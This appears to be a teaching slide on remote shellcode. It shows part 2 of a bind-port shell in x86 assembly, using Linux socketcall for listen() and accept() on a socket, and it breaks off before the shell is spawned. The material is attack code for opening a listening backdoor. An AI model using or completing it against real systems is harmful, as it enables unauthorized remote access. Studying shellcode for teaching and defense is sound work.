

# Remote shellcode
bind_port.s (part 2/2)

; listen(s, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx
  inc ebx           ; ebx = 4 = SYS_LISTEN = listen()
  push ebx          ; argv: { backlog = 4,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80

; c = accept(s, 0, 0)
  mov BYTE al, 0x66 ; socketcall (syscall #102)
  inc ebx           ; ebx = 5 = SYS_ACCEPT = accept()
  push edx          ; argv: { socklen = 0,
  push edx          ;         sockaddr ptr = NULL,
  push esi          ;         socket fd }
  mov ecx, esp      ; ecx = argument array
  int 0x80          ; eax = connected socket FD